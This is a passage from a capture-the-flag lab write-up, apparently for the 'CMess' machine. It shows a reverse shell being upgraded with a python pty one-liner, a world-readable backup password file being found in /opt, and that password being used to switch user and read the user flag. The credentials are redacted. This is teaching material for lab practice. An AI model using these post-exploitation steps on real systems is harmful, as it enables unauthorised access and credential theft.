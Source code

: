 Let’s upgrade the shell to get the better one:

```
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@cmess:/$ pwd
pwd
/
```

## Privilege Escalation → normal user

From this point, you can use other tools to auto enumerate the machine. In my report, I will perform the manual way either.

Navigate to directory `/opt/`:

```
www-data@cmess:/$ cd /opt/
cd /opt/
www-data@cmess:/opt$ ls -la
ls -la
total 12
drwxr-xr-x  2 root root 4096 Feb  6  2020 .
drwxr-xr-x 22 root root 4096 Feb  6  2020 ..
-rwxrwxrwx  1 root root   36 Feb  6  2020 .password.bak
```

Read the file `.password.bak` and get the creds of the mentioned user:

```
www-data@cmess:/opt$ cat .password.bak
cat .password.bak
[REDACTED]s backup password
[REDACTED]
```

Use that creds to escalate to the user → `cd` to the user’s work-place and get the flag:

```
www-data@cmess:/opt$ su [REDACTED]

su [REDACTED]
Password:
su: Authentication failure
www-data@cmess:/opt$ su [REDACTED]
su [REDACTED]
Password: [REDACTED]

[REDACTED]@cmess:/opt$ cd
cd
[REDACTED]@cmess:~$ ls -l
ls -l
total 8
drwxr-x--- 2 [REDACTED] [REDACTED] 4096 Feb  9  2020 backup
-rwxr-x--- 1 [REDACTED] [REDACTED]   38 Feb  6  2020 user.txt
[REDACTED]@cmess:~$ cat user.txt
cat user.txt
thm{[REDACTED]}
```

